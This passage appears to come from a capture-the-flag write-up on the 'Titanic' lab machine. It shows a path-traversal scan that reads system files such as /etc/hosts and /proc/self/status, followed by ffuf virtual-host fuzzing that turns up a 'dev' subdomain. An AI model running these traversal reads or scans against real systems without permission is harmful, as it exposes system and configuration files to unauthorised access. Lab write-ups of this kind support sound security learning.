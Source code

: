 ```
//etc/hostname (Status: 200)
//etc/hosts (Status: 200)
//etc/hosts.allow (Status: 200)
//etc/resolv.conf (Status: 200)
//etc/security/access.conf (Status: 200)
//etc/security/group.conf (Status: 200)
//etc/security/limits.conf (Status: 200)
//etc/security/namespace.conf (Status: 200)
//etc/security/pam_env.conf (Status: 200)
//proc/self/mounts (Status: 200)
//proc/self/stat (Status: 200)
//proc/self/status (Status: 200)
//proc/version (Status: 200)
//usr/share/adduser/adduser.conf (Status: 200)
//proc/self/fd/0 (Status: 200)
=====================================================
2025/02/22 22:20:40 Finished
=====================================================
```

## Discovering Virtual Hosts
I moved on and decided to scan for virtual hosts using `ffuf`. I have a [YouTube video](https://www.youtube.com/watch?v=51HyUgdUX6I&t=828s) showcasing this tool in depth if you want to learn more. 
```
$ ffuf -w ~/SecLists/Discovery/DNS/subdomains-top1million-5000.txt  -u http://10.10.11.55 -H "HOST: FUZZ.titanic.htb"

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.55
 :: Wordlist         : FUZZ: /home/drew/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.titanic.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

blog                    [Status: 301, Size: 309, Words: 20, Lines: 10]
ns4                     [Status: 301, Size: 308, Words: 20, Lines: 10]
old                     [Status: 301, Size: 308, Words: 20, Lines: 10]
support                 [Status: 301, Size: 312, Words: 20, Lines: 10]
admin                   [Status: 301, Size: 310, Words: 20, Lines: 10]
forum                   [Status: 301, Size: 310, Words: 20, Lines: 10]
ns3                     [Status: 301, Size: 308, Words: 20, Lines: 10]
mail2                   [Status: 301, Size: 310, Words: 20, Lines: 10]
secure                  [Status: 301, Size: 311, Words: 20, Lines: 10]
autodiscover            [Status: 301, Size: 317, Words: 20, Lines: 10]
dev                     [Status: 200, Size: 13870, Words: 1107, Lines: 276]
```
